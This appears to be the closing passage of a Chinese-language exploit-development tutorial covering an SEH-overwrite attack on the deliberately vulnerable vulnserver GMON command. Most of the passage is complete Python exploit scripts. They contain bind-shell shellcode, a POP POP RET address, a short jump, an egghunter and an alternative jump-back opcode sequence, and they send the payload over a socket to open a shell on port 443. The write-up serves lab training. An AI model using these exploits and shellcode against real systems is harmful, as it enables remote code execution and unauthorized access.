buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"payload = ""
payload += target_command
payload += "A" * 100
payload += egg
payload += buf
payload += "B" * (offset - 100 - len(egg) - len(buf) - len(short_jmp))
payload += short_jmp
payload += eip
payload += "\x90" * 10
payload += egghunter
payload += "C" * (4103 - offset - len(eip) - 10 - len(egghunter))print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)
s.close()
```

一旦我们运行了`final_gmon.py`脚本，我们就可以成功地在端口 443 上打开 bind shell。



成功绑定外壳

# 结论

概括一下:

1.  我们模糊了 vulnserver `GMON`命令
2.  找到了`GMON /`有漏洞命令的入口点
3.  找到了控制`SEH`覆盖的偏移量
4.  发现`POP POP RET`地址漏洞利用`SEH`覆盖
5.  介绍了一个短 JMP 搬到一个大一点的地方
6.  介绍了 Egghunter 搬到了更多更大的地方来放我们的 bind shell

希望你也从中学到了一些东西。感谢阅读！

# 额外的利用方式(没有 Egghunter)

因此，一旦我们短跳转到 49 字节空间，而不是使用 Egghunter，我们也可以引入一系列操作码来将我们的`EAX`寄存器跳转回我们有足够空间添加外壳代码的地方。

让我们在短 JMP 后面添加下面的操作码。

```
**### JMP Back Opcode**
PUSH ESP
POP EAX
ADD AX, 655
JMP EAX
```



JMP 返回操作码

一旦我们跳过指令，我们将成功地跳到我们控制的“A”位置。让我们添加我们的绑定外壳，并最终确定利用脚本。



JMP 回来了

**这里的一个提示是，从 OllyDbg 中，我们可以简单地二进制复制我们编写的操作码，以便在我们的漏洞利用脚本中使用它们。*



二进制复制(选择→右键→二进制→二进制复制)

## 最终漏洞脚本

```
**### Final** [**jmpback_gmon.py**](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/GMON%20-%20SEH%20Overwrite/jmpback_gmon.py)import socket
import struct
import os
import systarget_command = "GMON /"
offset = 3522
eip = struct.pack("<I", 0x6250172b)             **# POP POP RET**
short_jmp = "\xEB\x09\x90\x90"                  **# Short JMP**
jmp_back = "\x54\x58\x66\x05\x55\x06\xFF\xE0"   **# Long JMP****# Bind Shell (355 Bytes)**
buf =  ""
buf += "\xda\xc8\xb8\xaa\xa0\x38\x73\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\xe8\xb3\xda"
buf += "\x86\x10\x5b\x98\x69\xe8\x9c\xfd\xe0\x0d\xad\x3d\x96"
buf += "\x46\x9e\x8d\xdc\x0a\x13\x65\xb0\xbe\xa0\x0b\x1d\xb1"
buf += "\x01\xa1\x7b\xfc\x92\x9a\xb8\x9f\x10\xe1\xec\x7f\x28"
buf += "\x2a\xe1\x7e\x6d\x57\x08\xd2\x26\x13\xbf\xc2\x43\x69"
buf += "\x7c\x69\x1f\x7f\x04\x8e\xe8\x7e\x25\x01\x62\xd9\xe5"
buf += "\xa0\xa7\x51\xac\xba\xa4\x5c\x66\x31\x1e\x2a\x79\x93"
buf += "\x6e\xd3\xd6\xda\x5e\x26\x26\x1b\x58\xd9\x5d\x55\x9a"
buf += "\x64\x66\xa2\xe0\xb2\xe3\x30\x42\x30\x53\x9c\x72\x95"
buf += "\x02\x57\x78\x52\x40\x3f\x9d\x65\x85\x34\x99\xee\x28"
buf += "\x9a\x2b\xb4\x0e\x3e\x77\x6e\x2e\x67\xdd\xc1\x4f\x77"
buf += "\xbe\xbe\xf5\xfc\x53\xaa\x87\x5f\x3c\x1f\xaa\x5f\xbc"
buf += "\x37\xbd\x2c\x8e\x98\x15\xba\xa2\x51\xb0\x3d\xc4\x4b"
buf += "\x04\xd1\x3b\x74\x75\xf8\xff\x20\x25\x92\xd6\x48\xae"
buf += "\x62\xd6\x9c\x5b\x6a\x71\x4f\x7e\x97\xc1\x3f\x3e\x37"
buf += "\xaa\x55\xb1\x68\xca\x55\x1b\x01\x63\xa8\xa4\x2c\xcf"
buf += "\x25\x42\x44\x3f\x60\xdc\xf0\xfd\x57\xd5\x67\xfd\xbd"
buf += "\x4d\x0f\xb6\xd7\x4a\x30\x47\xf2\xfc\xa6\xcc\x11\x39"
buf += "\xd7\xd2\x3f\x69\x80\x45\xb5\xf8\xe3\xf4\xca\xd0\x93"
buf += "\x95\x59\xbf\x63\xd3\x41\x68\x34\xb4\xb4\x61\xd0\x28"
buf += "\xee\xdb\xc6\xb0\x76\x23\x42\x6f\x4b\xaa\x4b\xe2\xf7"
buf += "\x88\x5b\x3a\xf7\x94\x0f\x92\xae\x42\xf9\x54\x19\x25"
buf += "\x53\x0f\xf6\xef\x33\xd6\x34\x30\x45\xd7\x10\xc6\xa9"
buf += "\x66\xcd\x9f\xd6\x47\x99\x17\xaf\xb5\x39\xd7\x7a\x7e"
buf += "\x59\x3a\xae\x8b\xf2\xe3\x3b\x36\x9f\x13\x96\x75\xa6"
buf += "\x97\x12\x06\x5d\x87\x57\x03\x19\x0f\x84\x79\x32\xfa"
buf += "\xaa\x2e\x33\x2f"payload = ""
payload += target_command
payload += "A" * 100
payload += "\x90" * 200
payload += buf
payload += "\x90" * (offset - 300 - len(buf) - len(short_jmp))
payload += short_jmp
payload += eip
payload += "\x90" * 5
payload += jmp_back
payload += "C" * (4103 - offset - len(eip) - 5 - len(jmp_back))print "[+] Sending buffer (Size: %d)" % len(payload)s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)
s.close()
```

